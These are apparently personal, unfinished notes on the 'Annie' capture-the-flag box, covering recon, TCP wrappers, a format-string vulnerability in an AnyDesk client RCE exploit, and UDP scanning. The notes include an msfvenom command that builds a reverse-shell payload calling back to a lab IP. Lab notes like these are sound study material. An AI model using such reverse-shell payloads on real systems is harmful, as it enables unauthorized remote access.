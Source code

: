 # Annie Helped-Through

Name: Annie
Date:  
Difficulty:  Medium
Goals:  
- Keep OSCP mindset and method
- Power through this brain fuzz flu with fun and community
- Concatenate my OSCP notes and my QBM for a better workflow, improving cpabablities and retention
- \*Bins usage for the red team
- Patch the vuln
- Write my Naabu script replacement for masscan in AutomateRecon
Learnt:
Beyond Root:
- Patch the exploit

I decided to take a break from pretty much everything as this brain fuzz from this flu is still going to keep affecting me. Needed to think about my challanges and objectives for the year so the time helped. So I am here once again with Helped-Through just because I have felt at peak cognitively for like 4-5 weeks. Christmas was a good distraction from that, but life goes on. I also want to finish off [[Temple-Helped-Through]], [[Biblioteca-Helped-Through]] and [[Agent-T-Writeup]] along with [[Aratus-Helped-Through]] to round out some beyond root activities I need to do. Also I need to push my execise routine to higher than it was pre 2023 and these stream have the stream raiders segements to get up, stretch and pound out another straight one punch man plus extras.


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](Screenshots/ping.png)

Al asks what [TCP wrappers](https://en.wikipedia.org/wiki/TCP_Wrappers)
- [How to bypass](https://security.stackexchange.com/questions/23407/how-to-bypass-tcpwrapped-with-nmap-scan)

[AnyDesk Client RCE](https://www.exploit-db.com/exploits/49613) is format string vulnerability, which is using formatting of strings in functoin calls with a foprmat specifier  `"%s"`, which points to a  character array that is reference after the literal string `"string data here"`. These character arrays are terminated with a null byte to indicate that the string has ends. Basically you can use `printf` usign format strings that are point to parts of memory that can be used to dump memory it should not. Or with `scanf` write data to memory. `C` has a history of unsafe memory handling, there aer safer versions of functions that are still commonly referrenced in modern C tutorials and bootcamps. 

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=31337 -b "\x00\x25\x26" -f python -v shellcode
```

Al points out this is ACTUALLY a UDP exploit from reading the script. Read the script

Just scan the port indicated in the exploit... 

UDP scan:
- only if a port is closed will RST packet be sent, if a firewall is in the way you will get alot of false poistive

Remote Desktop Software will often use UDP for fast a possible data streaming.

Linear jumping around of my how tackling the issue.

## Exploit

## Foothold

## PrivEsc

## Beyond Root

      
